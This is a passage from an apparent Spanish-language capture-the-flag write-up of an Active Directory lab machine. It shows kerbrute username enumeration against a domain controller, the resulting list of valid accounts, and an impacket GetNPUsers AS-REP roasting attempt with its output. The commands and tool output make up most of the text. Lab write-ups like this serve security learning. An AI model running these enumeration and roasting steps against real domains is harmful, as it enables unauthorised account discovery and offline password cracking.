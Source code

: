 Vamos a validar si los usuarios son validos usando la herramienta `kerbrute`

* [https://github.com/ropnop/kerbrute](https://github.com/ropnop/kerbrute)

```bash
❯ /opt/kerbrute/kerbrute userenum --dc 10.10.10.179 -d MEGACORP.LOCAL users.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 03/31/23 - Ronnie Flathers @ropnop

2023/03/31 18:45:44 >  Using KDC(s):
2023/03/31 18:45:44 >  	10.10.10.179:88

2023/03/31 18:45:44 >  [+] VALID USERNAME:	ckane@MEGACORP.LOCAL
2023/03/31 18:45:44 >  [+] VALID USERNAME:	okent@MEGACORP.LOCAL
2023/03/31 18:45:44 >  [+] VALID USERNAME:	sbauer@MEGACORP.LOCAL
2023/03/31 18:45:44 >  [+] VALID USERNAME:	rmartin@MEGACORP.LOCAL
2023/03/31 18:45:44 >  [+] VALID USERNAME:	kpage@MEGACORP.LOCAL
2023/03/31 18:45:44 >  [+] VALID USERNAME:	james@MEGACORP.LOCAL
2023/03/31 18:45:44 >  [+] VALID USERNAME:	jorden@MEGACORP.LOCAL
2023/03/31 18:45:44 >  [+] VALID USERNAME:	ilee@MEGACORP.LOCAL
2023/03/31 18:45:44 >  [+] VALID USERNAME:	alyx@MEGACORP.LOCAL
2023/03/31 18:45:44 >  [+] VALID USERNAME:	zpowers@MEGACORP.LOCAL
2023/03/31 18:45:45 >  [+] VALID USERNAME:	nbourne@MEGACORP.LOCAL
2023/03/31 18:45:45 >  [+] VALID USERNAME:	aldom@MEGACORP.LOCAL
2023/03/31 18:45:45 >  Done! Tested 14 usernames (12 valid) in 0.787 seconds
```

Como nos encontramos en un entorno de directorio activo y es un domain controler, vamos a intentar realizar con los usuarios un `ASREPRoast Attack`, mediante el cual podemos solicituar un `TGT` sin conocer las contraseñas de los usuarios para obtener hashes que podemos crackear de forma offline. Para ello usaremos la herramienta de `impakcet` `GetNpUsers.py`.

* [https://github.com/fortra/impacket](https://github.com/ropnop/kerbrute)

```bash
❯ GetNPUsers.py MEGACORP.LOCAL/ -no-pass -usersfile users.txt
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[-] User sbauer doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User okent doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ckane doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User kpage doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User james doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User rmartin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User jorden doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User alyx doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ilee doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User nbourne doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User zpowers doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User aldom doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```
